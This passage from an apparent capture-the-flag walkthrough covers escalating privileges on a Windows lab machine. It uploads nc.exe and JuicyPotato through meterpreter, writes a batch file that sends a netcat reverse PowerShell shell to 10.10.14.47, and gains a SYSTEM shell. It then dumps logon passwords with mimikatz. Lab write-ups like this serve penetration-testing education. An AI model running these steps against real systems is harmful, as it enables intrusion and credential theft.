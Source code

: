 ```
    Some AutoLogon credentials were found
    DefaultDomainName             :  MEGACORP
    DefaultUserName               :  sandra
...
```

So while there are several CVEs available, we also have SeImpersonatePrivilege.  This can mean that JuicyPotato could be used to spawn a shell as admin, so let's give that a shot.

Oh, and "sandra" is automatically logged in which could come in handy during post exploitation when we scrape for creds with mimikatz.

### JuicyPotato

For this you can download it from https://github.com/ohpe/juicy-potato/releases/tag/v0.1 and then upload to the box just as before.

This time, to run it you'll need both nc.exe and a script which we will call with JuicyPotato so let's get those on the box as well.

```
meterpreter > upload nc.exe
meterpreter > upload JuicyPotato.exe
meterpreter > execute -f powershell -a "echo 'START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell 10.10.14.47 1111' > shell.bat"
... in another shell ...
$ nc -nlvp 1111
... back in meterpreter ... 
meterpreter > execute -f JuicyPotato.exe -a "-t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337"
... and now in our other shell ... 
$ nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.10.29] 60692
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> 
```

We are now root.  The flag is in C:\Users\Administrator\Desktop\root.txt

### Post Exploitation

The last bit on this box is to run mimikatz and see if we can scrape any passwords, so let's try that.

```
meterpreter > lcd /usr/share/windows-resources/mimikatz/x64
meterpreter > upload mimikatz.exe
...
PS C:\users\administrator\desktop> cd C:\inetpub\wwwroot\wordpress\wp-content\uploads
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> mimikatz.exe
...
mimikatz # sekurlsa::logonpasswords
...
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> ./mimikatz.exe
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Jul  9 2021 22:59:41
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
```